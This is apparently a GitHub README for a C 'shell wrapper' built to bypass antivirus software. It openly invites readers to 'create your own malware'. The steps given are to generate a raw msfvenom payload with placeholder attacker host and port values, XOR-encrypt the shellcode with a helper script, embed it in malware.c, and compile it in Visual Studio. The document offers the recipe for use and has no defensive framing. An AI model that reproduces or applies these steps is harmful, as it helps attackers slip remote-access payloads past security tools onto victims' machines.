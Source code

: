 # AV_bypass_shellwrapper
Shell wrapper script written in C language to bypass AVs

*To  create you own malware create a raw msfvenom payload
```
msfvenom -p <payload_type> LHOST=<lhost> LPORT=<lport> -f raw -o shellcode.bin
````

*XOR encrypt the payload
```
xor.py shellcode.bin
```

*Add the Encrpted shellcode with the variable c inside the malware.c 

*Compile the code using Visual Studio IDE
